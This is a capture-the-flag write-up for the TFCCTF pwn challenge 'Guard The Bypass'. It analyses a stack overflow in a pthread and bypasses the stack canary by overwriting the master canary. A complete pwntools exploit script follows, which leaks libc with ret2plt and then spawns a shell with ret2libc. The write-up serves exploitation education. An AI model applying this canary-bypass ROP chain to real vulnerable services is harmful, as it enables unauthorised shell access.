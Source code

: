 https://ctftime.org/event/2423

# Guard The Bypass (pwn)

I forgot to the note the description.

## Analysis

`main` @ `0x004013a0`
    - Launches a pthread the starts in `game`

`game` @ `0x0040132f`
    - Reads an attacker controlled amount of data from stdin to the stack
    - Validates a canary on the stack before ret
    - Because this is a pthread stack we can easily find the master canary value further along the stack

## Solution

Note: I did not solve this during the ctf but I spent some time after working on a solution based on the writeups.

1) Use ret2plt to leak the libc base taking care to stomp the canary and the master canary with the same value
    - Note the main image does not have PIE
2) Use ret2libc to get a shell

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "debug"
elf = ELF("./guard_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

p = elf.process()
#p = elf.debug(gdbscript="b *0x401384")
#p = remote("challs.tfcctf.com", 31735)

p.sendlineafter(b"Welcome! Press 1 to start the chall.\n", b"1")

rop = ROP(elf)
rop.raw(b"A" * 56)
rop.puts(elf.got["puts"])
rop.raw(elf.sym["game"])
rop.raw(b"A" * (2096 - len(rop.chain())))
rop.raw(p64(0x3fe000)) # writable bss
rop.raw(b"A" * 24)
chain = rop.chain()
p.sendlineafter(b"Select the len: ", str(len(chain)).encode())
p.sendline(chain)

leak = struct.unpack("<Q", p.readline().strip().ljust(8, b"\x00"))[0]
libc.address = leak - libc.sym["puts"]
log.success(f"libc: {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"A" * 56)
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.system(next(libc.search(b"/bin/sh\x00")))
p.send(rop.chain())

p.interactive()
```

## Flag
`TFCCTF{.+}`

smiley 2024/08/08
